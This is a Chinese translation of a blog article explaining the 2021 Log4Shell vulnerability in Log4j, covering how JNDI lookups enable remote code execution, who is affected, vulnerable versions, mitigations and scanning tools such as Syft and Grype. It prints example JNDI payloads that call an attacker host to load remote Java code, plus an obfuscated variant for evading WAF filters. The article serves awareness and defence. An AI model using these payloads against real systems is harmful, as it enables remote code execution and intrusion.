# Log4j 有什么炒作之处

> 原文：<https://betterprogramming.pub/whats-the-hype-with-log4j-2de7a64f221>

## 网络安全

## 以下是您应该了解的零日漏洞 log4shell(最严重的网络安全漏洞之一)，以及如何降低您遭受攻击的风险


[飞:D](https://unsplash.com/@flyd2069?utm_source=medium&utm_medium=referral) 在 [Unsplash](https://unsplash.com?utm_source=medium&utm_medium=referral) 上的照片(作者编辑)

随着我们接近年底，许多人都在为假期做准备，这段时间对管理员、安全专家以及攻击者来说，意味着除了平静的日子之外的任何日子。他们都在世界各地加班加点甚至不眠不休，因为同一个原因，但为了不同的目标。

2021 年 12 月 9 日，Apache 在 Java 日志库 Log4j 中披露了一个名为 Log4Shell 的零日漏洞，从那以后这个话题就上了头条。

一些专家将其描述为长期以来最严重的安全漏洞之一，因为它允许[远程代码执行(RCE)](https://www.wallarm.com/what/the-concept-of-rce-remote-code-execution-attack) ，并且很容易被利用。其他人认为，Log4Shell 将在互联网上困扰多年，然后才能收拾残局。

几天前，Apache 发布了一个针对漏洞的紧急更新,该漏洞被标识为[CVE-2021–44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228),并在 [CVSS 等级](https://www.first.org/cvss/)中被评定为最严重的 10 级,第二个被跟踪为[CVE-2021–45046](https://nvd.nist.gov/vuln/detail/CVE-2021-45046)的更新也与公众分享，同时还提供了一个新的补丁。

我不记得我第一次使用 Log4j 是什么时候，但那是很久以前的事了，就像成千上万的 Java 开发人员将这个库导入到他们的代码库中一样，我非常信任这个事实上的日志记录解决方案，我从来没有想到有一天它会引起这样的噪音或这样的麻烦。

是的，我知道，对于一个局外人来说，这可能听起来很疯狂，这样一个庞大的部落在他们的代码库中盲目地使用这个包，但我认为弗里德里希·尼采对疯狂有一个有趣的描述，适合这种情况:

> “疯狂在个人身上是罕见的，但在团体、党派、民族和时代，这是规律。”

在你责备我之前，让我告诉你，至少我不是那个把图书馆介绍给我工作的项目的人😁。

无论如何，我感觉被这个消息触发了，并结束了花大量时间搜索和了解它以及它对现在和未来的意义。在本帖中，我将分解关于这个话题你需要知道的内容，并回答一堆重要的问题。

```
**Table of Contents**[**What Is Log4Shell?**](#f8e5)
   ∘ [What Is JNDI?](#1ef3)
   ∘ [Filter and block](#de24)[**Why Addressing Log4Shell is Challenging?**](#fa71)[**Who Is Affected by Log4Shell?**](#5afa)
   ∘ [Companies](#d67a)
   ∘ [Home users](#2c88)
   ∘ [Security systems](#876c)[**Which Log4j Versions Are Vulnerable?**](#aa35)
[**How to Find Out if You’re Using Log4j?**](#d819)
   ∘ [Syft](#2bc2)
   ∘ [Grype](#ea92)
   ∘ [Log4Shell Bytecode Detector](#6d45)[**Final Thought**](#494e)
```

在我们开始之前，如果你还没有看到下面这张图，没有比现在更好的时间来看它了。

我觉得这很有意义，因为尽管 Apache 日志服务在技术领域很重要，但实际上负责这项服务的团队是由分布在世界各地的 16 名**自愿无偿开发人员**组成的:



[来源](https://github.com/YfryTchsGD/Log4jAttackSurface/blob/master/MEME/0.jpg)

# Log4Shell 是什么？

Log4j 库在 Java 领域广泛用于记录事件或错误。当我们试图将一个被操纵的请求发送到日志中时，问题就出现了。

[pen 测试小组 0x0021h 分享了一个概念验证代码(PoC)](https://github.com/0x0021h/apache-log4j-rce/blob/main/poc/src/main/java/log4j.java) ，展示了攻击者如何通过向易受攻击的服务器或应用程序发送类似`${jndi:ldap://127.0.0.1:1389/a}`的消息来利用这一安全漏洞，如下所示:

Log4Shell 的概念验证(log4j 库中的零日漏洞)

目录服务 JNDI (Java 命名和目录接口)然后将联系 LDAP(轻量级目录访问协议)服务器`127.0.0.1:1389`，并且在从它那里接收到诸如潜在恶意 Java 类的数据之后，它将执行它们。

攻击者还可以准备一个恶意的 Java 文件，并将其作为字符串包含在将要记录的任何数据中:

```
${jndi:ldap://attackers-server.com/**malicious-java-file**}
```

当易受攻击的服务器记录该字符串时，Log4j 将从攻击者控制的服务器中检索并执行 Java 代码。如果代码是远程外壳，攻击者将以运行易受攻击的应用程序的系统用户的权限获得本地外壳。因此，该漏洞被称为 **Log4Shell** ，意思是:

> "登录以便直接访问系统."



log4shell 是如何工作的？([来源](https://www.youtube.com/watch?v=RqdtEvW3_Wo)，作者译)

## 什么是 JNDI？

JNDI(或目录查找)是 Java 中的一个目录查找系统。它允许我们从网络上读取配置，而不是将其打包到 Java 应用程序中，然后在生产中安装这些包。



JNDI 的建筑([来源](https://docs.oracle.com/javase/tutorial/jndi/overview/index.html)

多亏了 JNDI SPI(服务提供者接口),您可以让 LDAP 服务器提供 Java 类文件，当您请求打印机时，它可以生成一个打印机对象。然而，这个特性允许安装恶意的东西，而不是交付假定的打印机对象。



Java 对象支持([来源](https://docs.oracle.com/javase/tutorial/jndi/overview/event.html))

加密矿工或危险的后门程序(如 Cobalt Strike Beacons)可以使用此功能来利用易受攻击的系统。

> “Cobalt Strike 是一款付费渗透测试产品，允许攻击者在受害机器上部署名为‘Beacon’的代理。”— [马尔佩迪亚](https://malpedia.caad.fkie.fraunhofer.de/details/win.cobalt_strike)

## 过滤并阻止

作为防止攻击易受攻击系统的解决方案，您可能会考虑使用 web 应用程序防火墙(WAF)来过滤、识别和阻止包含危险字符串的请求。

但这种方法的问题是，有许多方法可以逃避它。攻击者可以通过使用正则表达式或编写如下请求进行伪装，以绕过所有过滤器并成功触发攻击:

```
${${**env:ENVNAME:-j**}ndi${**env:ENVNAME:-:**}${**env:ENVNAME:-l**}dap${**env:ENVNAME:-:**}//attacker.com/a}
```

这种做法的另一个缺点是，它可能会阻止 ***无害的*** 用户。

Cloudflare 目前正试图通过阻止浏览器显示可疑用户代理的请求来保护其客户，如下例所示:

当我试图使用[这里提供的抄袭检查器](https://searchenginereports.net/plagiarism-checker)来扫描包含字符串`${jndi:ldap://127.0.0.1:1389/a}`的文本抄袭时，应用程序阻止了我，正如你在下面的截图中看到的:



如果 Cloudflare 将其解释为 Log4Shell 攻击，则会阻止对客户网站的访问。(作者截图)

# 为什么解决 Log4Shell 问题具有挑战性？

即使您或您的团队编写的 Java 代码不使用 Log4j，这也不意味着您的应用程序不包含易受攻击的库实例。这些实例可能隐藏在您项目中使用的包或框架中的某个地方，而您甚至不知道。

**Struts** 、 **Hadoop** 、 **Elasticsearch** 、 **Grails** 和 **Kafka** 只是几个流行的 Java 框架和包的例子，它们被成千上万的企业应用程序(如果不是数百万的应用程序和服务)所使用，猜猜怎么着……它们也在使用 Log4j。

如果您的代码将漏洞深深地嵌入了几层(一个嵌套在 JAR 中的 JAR，一个嵌套在 JAR 中的 JAR)，仅仅检查您的 Java 档案(JAR)是不够的。您还需要调查所有嵌套的。



利用易受攻击的 log4j 作为间接依赖(来源:[谷歌](https://security.googleblog.com/2021/12/understanding-impact-of-apache-log4j.html))

根据[谷歌](https://security.googleblog.com/2021/12/understanding-impact-of-apache-log4j.html)的说法，超过 35，000 个 Java 包，占 Maven 中央存储库的 8%以上，是易受攻击的，其中大多数都有 log4j 作为间接依赖。

# Log4Shell 对谁有影响？

## 公司

Log4Shell 已经影响了许多互联网服务和数千家公司。

在 GitHub 上，有一个远非完整的[列表，列出了在其系统中使用易受攻击的 log4j 的最知名公司](https://github.com/YfryTchsGD/Log4jAttackSurface)。列表包括 ***亚马逊******苹果******LinkedIn******cloud flare******谷歌******IBM******特斯拉******推特【推特***

***微软*** 也看到了安装硬币矿工，钴罢工，使凭据盗窃和横向移动，以及从受损系统中渗透数据。

> “根据 12 月 11 日至 12 月 15 日期间收集的遥测数据，仅德国和美国就占了所有利用企图的 60%。观察期内最常见的攻击目标是美国、加拿大、英国、罗马尼亚、德国、澳大利亚、法国、荷兰、巴西和意大利。”— [黑客新闻](https://thehackernews.com/2021/12/new-local-attack-vector-expands-attack.html)



超过 50%的攻击利用 Tor 匿名服务来掩盖其真实来源([来源](https://businessinsights.bitdefender.com/log4shell-the-call-is-coming-from-inside-the-house))

## 家庭用户

Log4Shell 不仅威胁大公司和小公司，还威胁私人个人和家庭办公室的员工，以及易受攻击的物联网设备的最终用户。

例如，Ubiquiti 是一家在家庭用户中主要以其可网格化的 WLAN 接入点而闻名的美国技术公司，它承认[其配置和管理前端 UniFi 网络应用程序存在漏洞，并为其提供了更新](https://community.ui.com/releases/UniFi-Network-Application-6-5-54/d717f241-48bb-4979-8b10-99db36ddabe1)。

这意味着，由于新冠肺炎病毒，员工目前在家工作的公司以及使用私人电脑通过 VPN 连接到公司内部网络的公司面临风险。

许多酒店、商店、银行、医疗机构和小公司也使用 UniFi 网络应用程序，通过访客 WLAN 使用优惠券为访客提供互联网接入。

其他网络产品制造商也可能受到影响，但他们可能宁愿保持沉默。

## 安全系统

Java 广泛应用于访问系统，如数字锁系统、自动化技术和智能家居，这增加了受 log4j 安全缺陷影响的产品数量。

[思科自己](https://www.youtube.com/watch?v=MMwUF4sHmBQ)报告称其思科视频监控运营管理器也易受攻击。



**对 log4j 漏洞中的暗网很感兴趣:** *一段来自 Invidious 的视频——暗网视频流媒体平台，类似于 YouTube。2021 年 12 月 16 日此视频有* ***200K+浏览量*** *和关于* ***1500 评论*** *。(* [*来源*](https://businessinsights.bitdefender.com/log4shell-the-call-is-coming-from-inside-the-house) *)*

# 哪些 Log4j 版本易受攻击？

2.17 版之前的 Log4j 版不安全。在[版本 2.16.0](https://lists.apache.org/thread/d6v4r6nosxysyq9rvnr779336yf0woz4) 中，阿帕奇开发者改进了保护措施，彻底停用了 JNDI。但是用户可以手动再次打开它，这在无保护的环境中代表了高安全风险。

属于 1.x 分支的旧版本不再提供更新(生命周期结束),它们因不同于 Log4Shell 的其他漏洞而为人所知。

如果在您的情况下无法更新到新版本的库，并且您的 Log4j 版本高于或等于 2.10，您可以通过将变量`log4j2.formatMsgNoLookups`设置为`true`来保护易受攻击的服务。为此，使用参数`–**Dlog4j2.formatMsgNoLookups=True**`启动 Java 虚拟机，或者设置环境变量`**LOG4J_FORMAT_MSG_NO_LOOKUPS=true**`。

对于旧版本，建议使用以下命令删除`JndiLookup`类作为缓解:

```
**zip -q -d log4j-core-*.jar****org/apache/logging/log4j/core/lookup/JndiLookup.class**
```

以下是[过去两周](https://thehackernews.com/2021/12/new-local-attack-vector-expands-attack.html)报告的缺陷列表:

*   [**CVE-2021–44228**](https://thehackernews.com/2021/12/extremely-critical-log4j-vulnerability.html)(已在 2.15.0 版本中修复) **:** 它导致远程代码执行漏洞，影响从 2.0-beta9 到 2.14.1 的 Log4j 版本。
*   [**CVE-2021–45046**](https://thehackernews.com/2021/12/second-log4j-vulnerability-cve-2021.html)(在 2.16.0 版本中修复) **:** 导致信息泄露和远程代码执行漏洞，影响 Log4j 版本从 2.0-beta9 到 2.15.0，不包括 2.12.2。
*   [**CVE-2021–45105**](https://nvd.nist.gov/vuln/detail/CVE-2021-45105)(已在 2.17.0 版本中修复) **:** 一个拒绝服务漏洞，影响 Log4j 版本从 2.0-beta9 到 2.16.0。
*   [**CVE-2021–4104**](https://nvd.nist.gov/vuln/detail/CVE-2021-4104)(没有可用的修复程序；升级至 2.17.0 版) **:** 一个影响 Log4j 版的不可信反序列化缺陷。

# 如何发现自己用的是不是 Log4j？

要查明您的应用程序是否使用了易受攻击的 Log4j 版本，您需要扫描您的 JAR 文件和 JAR 档案的嵌套层。好消息是，您不需要手动挖掘依赖关系树的底部来识别是否有 Log4j 的易受攻击的实例隐藏在某个地方。

有开源工具可以扫描大量打包的依赖格式，检查它们的存在，并报告它们是否包含 Syft 和 Grype 等漏洞 [anchore](https://anchore.com/) 。

## Syft

Syft 生成 SBOM(软件物料清单)。它能够确定 Java 应用程序包含哪个版本的 Log4j。



[来源](https://twitter.com/joshbressers/status/1469411411948417035)

## 格里佩

[Grype](https://github.com/anchore/grype) 是一个漏洞扫描器。它能够扫描多层嵌套，并告知特定软件中的漏洞列表，并识别依赖关系包含的漏洞。



使用 Grype ( [source](https://anchore.com/opensource/) )扫描漏洞

这些工具允许您扫描:

*   磁盘上的目录，
*   本地容器图像，
*   远程注册表中的容器，

您可以在构建之前检查您的代码库，或者在构建之后检查最终的应用程序。

## Log4JShell 字节码检测器

要检查您的基础设施中的 Log4j 缺陷，您还可以使用 [Log4JShell 字节码检测器](https://github.com/CodeShield-Security/Log4JShell-Bytecode-Detector)，您可以在 GitHub 的 CodeShield 存储库中找到它。

这种工具可以提供支持，但它不能在所有情况下提供 100%的检测。

# 最终想法

虽然世界各地的公司和服务提供商都在继续检查他们的产品，并且正在运行大量的安全更新，但对您来说，第一步也是最重要的一步是确保 log4j 漏洞是否会影响您，然后采取正确的措施。

如果你是一名程序员，在开发的每个阶段扫描你的应用程序也很重要，因为如果最初的源代码扫描是干净的，这并不意味着最终的构建或部署的应用程序将是干净的。

预计 log4j 安全缺陷及其影响将影响 web 开发和依赖生态系统的未来。所以请继续关注，并且永远记住，代码越少越好。

你可以在 Apache Log4j 项目的网站[上看到更多关于更新和缓解的信息。](https://logging.apache.org/log4j/2.x/security.html)

```
**Want to Connect With the Author?**I write about engineering, technology, and leadership for a community of smart, curious people. [Join my free email newsletter for exclusive access](https://rakiabensassi.substack.com/).
```